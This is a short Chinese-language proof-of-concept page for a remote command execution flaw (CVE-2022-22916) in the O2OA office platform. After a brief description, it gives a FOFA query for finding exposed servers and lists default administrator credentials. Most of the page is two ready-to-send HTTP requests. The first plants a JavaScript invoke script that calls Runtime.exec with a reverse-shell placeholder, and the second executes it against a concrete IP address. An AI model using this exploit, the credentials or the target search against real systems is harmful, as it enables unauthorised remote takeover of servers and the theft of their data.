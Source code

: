## O2OA远程命令执行(CVE-2022-22916)

O2OA是一个基于J2EE分布式架构，集成移动办公、智能办公，支持私有化部署，自适应负载能力的，能够很大程度上节约企业软件开发成本的基于AGPL协议开放源代码的企业信息化系统需求定制开发平台解决方案。 通过 /x_program_center/jaxrs/invoke 发现 O2OA v6.4.7 包含一个远程代码执行 (RCE) 漏洞。

## fofa

```
app="兰德网络-O2OA"
```

## poc

登录账号 xadmin/o2 获取Authorization

O2OA开发平台默认的超级管理员账号为xadmin，密码为o2oa@2022。

第一步

```
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Host: 123.58.236.76:33455
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Authorization: 你的Authorization
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 475

{"name":"aodsec","id":"aodsec","alias":"","description":"","isNewInvoke":true,"text":"\nvar p = java.lang.Runtime.getRuntime().exec('反弹shell命令');\nvar sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\nvar result = sc.hasNext() ? sc.next() : \"\";\nsc.close();","enableToken":false,"enable":true,"remoteAddrRegex":"","lastStartTime":"","lastEndTime":"","validated":true}
```

```
第二步：

POST /x_program_center/jaxrs/invoke/aodsec/execute?v=6.3 HTTP/1.1
Host: 123.58.236.76:43953
Content-Length: 0
Accept: text/html,application/json,*/*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
Authorization: 你的Authorization
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://123.58.236.76:43953
Referer: http://123.58.236.76:43953/x_desktop/index.html
Accept-Encoding: gzip, deflate
Cookie:  
Connection: close
```

![image-20240603164914487](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406031649581.png)

![image-20240603164922557](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406031649610.png)